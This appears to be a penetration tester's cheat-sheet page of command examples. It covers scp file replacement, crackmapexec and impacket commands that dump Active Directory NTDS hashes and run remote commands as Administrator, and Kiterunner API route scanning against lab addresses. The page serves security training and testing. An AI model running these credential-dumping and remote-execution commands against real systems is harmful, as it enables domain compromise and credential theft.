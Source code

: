 ```yaml
---
layout: default
title: Command References & Examples
has_children: false
parent: Resources
nav_order: 5-2
---
```


# Secure Copy (scp)
- Replace a destination file (Using a SSH public key):
```scp -i id_rsa SomeLocalFile  user@192.168.150.100:directory/someLocalFile```
> If output is not allowed, set the legacy '-O' flag

# Windows
## crackmapexec
> SMB to obtain ntds file:
``` crackmapexec smb forest.example.local -u 'username' -p 'password' --ntds ```
> SMB to pass through a command:
``` crackmapexec smb 192.168.243.248 -u 'Administrator' -p 'Password' -x 'type C:\Users\Administrator\Desktop\proof.txt' ```

## impacket
### secretsdump module
``` impacket-secretsdump -just-dc htb.local/svc-account@10.10.10.161 ```
### wmiexec
``` impacket-wmiexec Administrator@$192.168.243.248 ```

# API Discovery
## Kiterunner
``` kr scan http://192.168.1.150:8888 -w /usr/share/wordlists/kiterunner/routes-large.kite ```
> scan without an authorization header
Options:
``` --fail-status-codes 400,401,404,403,501,502,426,411 ```
``` --delay 1s ```
Add an API Key:
``` kr scan http://10.0.2.4:8090 -w ~/usr/share/wordlists/kiterunner/routes-large.kite -H 'x-access-token: eyJH.eyJ1c.A1c' ```
> -H is 'headers' which passes the API key through in the x-access-token header
Proxy a replay through BurpSuite
```kr kb replay -w ~/usr/share//wordlists/kiterunner/routes-large.kite --proxy http://127.0.0.1:8080 "GET     200 [     10,    1,   1] http://10.0.2.4:8090/api/pictures/like 0cf684adc03406c50be603cfbc094373880973ae" ```


